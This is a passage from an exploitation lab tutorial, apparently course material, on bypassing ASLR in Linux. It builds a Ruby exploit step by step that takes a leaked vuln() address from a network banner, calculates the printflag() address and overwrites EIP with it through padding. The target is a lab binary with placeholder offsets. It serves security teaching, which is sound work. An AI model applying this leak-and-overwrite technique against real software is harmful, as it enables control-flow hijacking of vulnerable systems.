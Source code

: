 ==VM: On the Kali Linux VM (attacker/exploit development)==

Our exploit module already receives the address that we're looking for over the network. If we take a look at our script, this happens towards the beginning of the exploit() function. The socket is read from, then stored in the variable 'banner'.

We can test that the hex address is stored in the 'banner' variable by adding another puts statement in our script + rerunning it.

==action: Verify this is the case by adding a few puts statements after banner is assigned:==

```ruby
puts banner
puts banner
puts banner
```

![][image-4]

OK great, now that we know the banner variable contains the data we want, we can apply a regular expression to pull out the hex value (as a string).

==action: Capture the information leak within our ruby script at Step 3 (remember to comment out Step 2!):==

```ruby
eip_offset = "==edit:EIP-Offset-Value=="
eip = "BBBB"
padding = "A" * eip_offset
vuln_addr = banner[/0x......../]  # Hex value as a string
puts "vuln(): " + vuln_addr

bad = padding + eip
```

==action: Rerun your program and confirm in a debugger that this address has been pulled out correctly==.

We can use this information and the offset that we found earlier to calculate the address of `printflag()`!

==action: For Step 4 introduce the offsets, perform arithmetic to calculate the position of the printflag() function, relative to the memory address of the vuln() function which we have been leaked, then replace EIP with the printflag address:==

```ruby
eip_offset = "==edit:EIP-Offset-Value=="
padding = "A" * eip_offset

vuln_addr = banner[/0x......../]  # Hex value as a string
puts "vuln(): " + vuln_addr

printflag_offset = "==edit:Printflag-Offset-Value==" # Offset as a string e.g. "0x??"
printflag_addr_str =  "0x" + (vuln_addr.to_i(16) - printflag_offset.to_i(16)).to_s(16)
puts "printflag offset: " + printflag_offset

puts "printflag(): " + printflag_addr_str

printflag_addr = [printflag_addr_str.hex].pack('V')

eip = printflag_addr

bad = padding + eip
```


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-5.png